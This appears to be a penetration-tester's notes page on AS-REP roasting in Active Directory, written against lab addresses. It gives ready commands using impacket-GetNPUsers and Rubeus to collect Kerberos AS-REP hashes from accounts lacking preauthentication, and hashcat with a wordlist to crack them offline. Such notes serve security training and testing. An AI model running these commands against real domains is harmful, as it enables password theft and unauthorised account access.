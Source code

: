 # AS-REP Roasting

Without Kerberos preauthentication in place, an attacker could send an AS-REQ to the domain controller on behalf of any AD user. After obtaining the AS-REP from the domain controller, the attacker could perform an offline password attack against the encrypted part of the response. This attack is known as [_AS-REP Roasting_](https://harmj0y.medium.com/roasting-as-reps-e6179a65216b).

## Linux

On Kali, we can use [**impacket-GetNPUsers**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) to perform AS-REP roasting:

{% code overflow="wrap" %}
```sh
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```
{% endcode %}

* **-dc-ip:** IP address of the domain controller
* **-outputfile:** name of the output file (contains AS-REP hash)
* **-request:** request the TGT
* **domain/user:** use the user needed for authentication and enter their password when prompted

## Windows

[_Rubeus_](https://github.com/GhostPack/Rubeus) is a toolset for raw Kerberos interactions and abuses.

As a pre-authenticated domain user: don't have to provide any other options to Rubeus except **asreproast.** Rubeus will automatically identify vulnerable user accounts

```sh
.\Rubeus.exe asreproast /nowrap
```

* **/nowrap:** prevent new lines being added to the AS-REP hashes

## Crack the hash

Find the correct hashcat mode for the AS-REP hash:&#x20;

```sh
hashcat --help | grep -i "Kerberos"
```

Crack the hash:

{% code overflow="wrap" %}
```sh
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
